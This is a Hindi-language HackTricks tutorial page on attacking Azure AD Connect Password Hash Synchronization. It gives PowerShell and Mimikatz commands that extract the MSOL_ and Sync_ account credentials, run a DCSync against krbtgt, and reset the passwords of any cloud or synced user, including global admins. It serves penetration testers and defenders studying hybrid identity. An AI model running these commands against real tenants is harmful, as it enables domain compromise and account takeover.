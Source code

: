 # Az - PHS - पासवर्ड हैश सिंक्रोनाइज़ेशन

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें.

</details>

## मूल जानकारी

**पासवर्ड हैश सिंक्रोनाइज़ेशन** हाइब्रिड पहचान प्राप्त करने के लिए इस्तेमाल किए जाने वाले साइन-इन तरीकों में से एक है। **Azure AD Connect** एक ऑन-प्रिमाइसेस Active Directory इंस्टेंस से एक यूजर के पासवर्ड के हैश का हैश, क्लाउड-आधारित Azure AD इंस्टेंस में सिंक्रोनाइज़ करता है।

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

यह कंपनियों द्वारा ऑन-प्रिम AD को Azure AD के साथ सिंक्रोनाइज़ करने के लिए **सबसे आम तरीका** है।

सभी **यूजर्स** और पासवर्ड हैशेस का **हैश** ऑन-प्रिम से Azure AD में सिंक्रोनाइज़ किया जाता है। हालांकि, **स्पष्ट-पाठ पासवर्ड** या **मूल** **हैशेस** Azure AD में नहीं भेजे जाते हैं।\
इसके अलावा, **बिल्ट-इन** सुरक्षा समूह (जैसे डोमेन एडमिन्स...) Azure AD में **सिंक नहीं किए जाते** हैं।

**हैशेस सिंक्रोनाइज़ेशन** हर **2 मिनट** में होता है। हालांकि, डिफ़ॉल्ट रूप से, **पासवर्ड समाप्ति** और **खाता** **समाप्ति** Azure AD में **सिंक नहीं** होती है। इसलिए, एक यूजर जिसका **ऑन-प्रिम पासवर्ड समाप्त हो गया है** (बदला नहीं गया है) वह पुराने पासवर्ड का उपयोग करके Azure संसाधनों तक पहुंच जारी रख सकता है।

जब एक ऑन-प्रिम यूजर Azure संसाधन तक पहुंचना चाहता है, तो **प्रमाणीकरण Azure AD पर होता है**।

**PHS** जैसी सुविधाओं के लिए आवश्यक है जैसे **Identity Protection** और AAD Domain Services।

## पिवोटिंग

जब PHS कॉन्फ़िगर किया जाता है तो कुछ **विशेषाधिकार प्राप्त खाते** स्वचालित रूप से **बनाए जाते हैं**:

* खाता **`MSOL_<installationID>`** ऑन-प्रिम AD में स्वचालित रूप से बनाया जाता है। इस खाते को **Directory Synchronization Accounts** भूमिका दी जाती है (देखें [दस्तावेज़ीकरण](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) जिसका अर्थ है कि इसमें ऑन-प्रिम AD में **प्रतिकृति (DCSync) अनुमतियां** होती हैं।
* Azure AD में **`Sync_<on-prem ADConnect Server का नाम>_installationID`** नामक एक खाता बनाया जाता है। यह खाता Azure AD में किसी भी यूजर (सिंक या क्लाउड केवल) का **पासवर्ड रीसेट** कर सकता है।

इन दो पिछले विशेषाधिकार प्राप्त खातों के पासवर्ड **SQL सर्वर पर संग्रहीत** किए जाते हैं जो **Azure AD Connect स्थापित** सर्वर पर होता है। एडमिन स्पष्ट-पाठ में उन विशेषाधिकार प्राप्त उपयोगकर्ताओं के पासवर्ड निकाल सकते हैं।\
डेटाबेस `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf` में स्थित है।

एक तालिका से कॉन्फ़िगरेशन निकालना संभव है, जिसमें से एक एन्क्रिप्टेड है:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**एन्क्रिप्टेड कॉन्फ़िगरेशन** **DPAPI** के साथ एन्क्रिप्टेड है और इसमें ऑन-प्रिम AD में **`MSOL_*`** उपयोगकर्ता के पासवर्ड और AzureAD में **Sync\_\*** का पासवर्ड शामिल है। इसलिए, इन्हें समझौता करने से AD और AzureAD में प्रिवेस्क करना संभव है।

इन क्रेडेंशियल्स कैसे संग्रहीत और डिक्रिप्ट किए जाते हैं, इसका [पूरा अवलोकन इस वार्ता में पाया जा सकता है](https://www.youtube.com/watch?v=JEIR5oGCwdg)।

### **Azure AD connect सर्वर** का पता लगाना

यदि **Azure AD connect स्थापित सर्वर** डोमेन से जुड़ा हुआ है (दस्तावेज़ों में सिफारिश की गई), तो इसे इसके साथ पता लगाना संभव है:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### MSOL\_\* का दुरुपयोग
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
आप [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) का उपयोग करके इन क्रेडेंशियल्स को प्राप्त कर सकते हैं।
{% endhint %}

### Sync\_\* का दुरुपयोग

**`Sync_*`** अकाउंट को समझौता करके किसी भी उपयोगकर्ता (ग्लोबल एडमिनिस्ट्रेटर्स सहित) का **पासवर्ड रीसेट** करना संभव है
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
यह संभव है कि केवल **क्लाउड उपयोगकर्ताओं के पासवर्ड में परिवर्तन किया जाए** (भले ही वह अप्रत्याशित हो)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
### Seamless SSO

PHS के साथ Seamless SSO का उपयोग संभव है, जो अन्य दुरुपयोगों के लिए संवेदनशील है। इसे यहाँ जाँचें:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## संदर्भ

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
